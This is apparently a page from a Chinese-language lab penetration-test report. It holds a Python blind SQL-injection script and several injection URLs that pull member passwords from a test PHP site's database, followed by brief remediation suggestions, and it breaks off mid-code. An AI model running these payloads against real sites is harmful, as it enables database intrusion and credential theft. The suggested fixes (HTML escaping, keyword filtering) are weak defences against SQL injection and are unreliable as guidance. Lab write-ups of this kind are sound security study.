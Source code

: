 ``````
        d=0
        for i in range(1,40):
            if d ==2:
                print("结束了")
                exit()
            for j in range(255):
                url="http://10.1.0.239/products.php?type=1%20and%28select%20ascii%28mid%28%28select%20password%20from%20seattle.tblMembers%20limit%20"+str(k)+",1%29,"+str(i)+",1%29%29%29="+str(j)
                try:
                    #print(url)
                    #print(d)
                    rp = urllib.request.Request(url, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    #print(html)
                    #exit()
                    if "Foo Vinyl" in html:
                        if j==0:
                            break
                        #print(j)
                        a+=chr(j)
                        print(a)
                        c = 0
                        d = 0
                        break
                except:
                    continue
            d += 1
        c += 1
```

### 7.4.2 报错注入

```
http://10.1.0.239/details.php?prod=1and&type=1
```
说明存在5个字段
```
http://10.1.0.239/details.php?prod=1%20order%20by%205&type=1 没报错
http://10.1.0.239/details.php?prod=1%20order%20by%206&type=1 报错了
```
进行UNION注入构造语句，发现并没有显示位。所以只能进行报错盲注了

```
http://10.1.0.239/details.php?prod=1%20union%20select%201,2,3,4,5&type=1
```
跟上面几乎一样，就是利用的地方不一样
```
http://10.1.0.239/details.php?prod=1%20and(select%20ascii(mid((select%20password%20from%20seattle.tblMembers%20limit%200,1),1,1)))=100&type=1
```


## 7.5 漏洞修补建议

### 7.5.1 使用htmlspecialchars函数在GET输入做一个过滤。

![1559822934334](assets/1559822934334.png)

### 7.5.2 使用strpos函数在GET输入做判断是否存在关键字。

可以自定义关键字建立数组即可

```
function foo($arg)
``````